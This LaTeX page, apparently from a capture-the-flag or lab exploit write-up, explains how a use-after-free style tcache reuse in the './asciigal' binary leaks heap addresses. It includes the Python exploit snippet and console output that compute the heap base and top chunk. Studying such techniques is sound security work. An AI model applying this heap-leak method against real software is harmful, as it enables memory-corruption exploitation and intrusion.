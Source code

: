 \documentclass{article}
\numberwithin{equation}{subsection}
\begin{document}
\subsubsection{Leak heap addresses}
The snippet of the script is shown in code \ref{lst:leak-heap-addresses}. First of all two fast chunks, with the size of the chunk which contains the article structure are created, line \ref{line:p-allocate-fast-chunk}. Then, one of them is freed, line \ref{line:p-delete-fast-chunk}. This will create the following structure in the tcache:\newline
{}\newline
When a new article is allocated, line \ref{line:p-reallocate-fast-chunk}, the payload chunk is the one previously used to hold the article structure, and vice versa. In other words, by printing the payload of the new allocated chunk we are able to print the article structure content. The point is that it contains pointer to chunks, that is, a heap leak is found.
Finally, from line \ref{line:p-parse-heap-leak} the byte-stream leak is parsed and used to compute the base address of the heap and the top chunk one, code \ref{lst:leak-heap-addresses}.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=pythonstyle}
\begin{lstlisting}[caption={Leaking heap addresses with python script.},captionpos=b,label={lst:leak-heap-addresses}]
    # Leaking the heap
    print("[1]-Leaking heap addresses...")
    new_article("A"*4, 32, "A"*4)~\label{line:p-allocate-fast-chunk}~
    new_article("B"*4, 32, "B"*4)
    
    delete_article(1)~\label{line:p-delete-fast-chunk}~
    new_article("A"*4, 32, "A"*4)~\label{line:p-reallocate-fast-chunk}~
    print_article(1)
    
    heap_leak = u64(p.recv(42)[34:])~\label{line:p-parse-heap-leak}~
    heap_base = heap_leak + heap_offset
    top_chunk = heap_base + top_chunk_offset
    print("\t\tHeap base address: ", hex(heap_base))
    print("\t\tTop chunk address: ", hex(top_chunk))
\end{lstlisting}
\end{minipage}
\begin{minipage}{\textwidth}
\centering
\lstset{style=consolestyle}
\begin{lstlisting}[caption={Leaking heap addresses.}, 
captionpos=b,label={lst:leak-heap-addresses}]
xman@ubuntu:/$ ./x.py
...
[+] Starting local process './asciigal': pid 2686
[1]-Leaking heap addresses...
        Heap base address:  0x555555576760
        Top chunk address:  0x555555577658
\end{lstlisting}
\end{minipage}
\end{document}
